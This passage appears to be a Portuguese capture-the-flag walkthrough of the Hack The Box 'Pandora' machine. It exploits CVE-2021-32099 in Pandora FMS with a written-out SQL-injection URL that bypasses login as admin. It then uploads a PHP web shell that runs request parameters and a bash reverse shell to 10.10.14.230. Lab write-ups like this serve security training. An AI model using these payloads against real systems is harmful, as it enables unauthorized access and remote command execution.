 ## CVE-2021-32099

Esta vulnerabilidade parece perfeita para o nosso caso. A versão é exatamente a mesma, e permite um usuário random não autenticado entrar sem password nem nada.

> Existe também um exelente artigo a explicar a vulnerabilidade: [Artigo](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

E no github, encontramos tudo e mais alguma coisa sobre todos os assuntos! Este assunto não é exceção.

> [POC CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

Pelos vistos basta entrar na página normal de login, e adicionar à URL **http://localhost/pandora_console/** o seguinte: **include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271**

Depois voltar á página inicial de login e já está... **http://localhost/pandora_console/**

## RCE com usuário **matt**

![filemanager](Assets/HTB-Linux-Easy-Pandora/filemanager.png)

Para executar comandos, é bastante simples. No File manager, é só fazer o upload de um ficheiro para executar comando. Eu vou logo executar o reverse shell, mas poderiamos criar outro ficheiro:

```php
# Existe mil e uma forma de executar comandos, dependendo de como está montado o serviço PHP. Para dar apenas 2 exemplos:
# Para RCE, através de um parâmetro:
<?php
	 echo "\nURL Shell... url?cmd=<command>\n\n";
	 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# Para diretamente ter o reverse shell:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.230/443 0>&1'");?>
```
